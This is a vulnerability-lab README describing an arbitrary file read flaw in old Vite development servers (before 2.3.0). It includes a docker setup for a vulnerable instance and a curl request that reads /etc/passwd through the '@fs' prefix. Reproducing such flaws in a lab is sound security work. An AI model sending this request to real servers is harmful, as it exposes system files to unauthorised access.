 # Vite Development Server Arbitrary File Read (CNVD-2022-44615)

[中文版本(Chinese version)](README.zh-cn.md)

Vite is a modern frontend build tool that provides a faster and leaner development experience for modern web projects. It consists of two major parts: a dev server with Hot Module Replacement (HMR) capability, and a build command that bundles your code with Rollup.

In versions of Vite before 2.3.0, arbitrary files on the filesystem can be read using the `@fs` prefix.

References:

- <https://github.com/vitejs/vite/issues/2820>

## Environment Setup

Execute the following command to start a Vite 2.1.5 development server:

```bash
docker compose up -d
```

After the server starts, you can access the Vite development environment at `http://your-ip:3000`.

> Note: The development server of the old version of Vite defaults to port 3000, while the new version defaults to port 5173, please pay attention to the difference.

## Vulnerability Reproduction

You can read arbitrary files on the filesystem by using the standard `@fs` prefix:

```bash
curl "http://your-ip:3000/@fs/etc/passwd"
```

![](1.png)
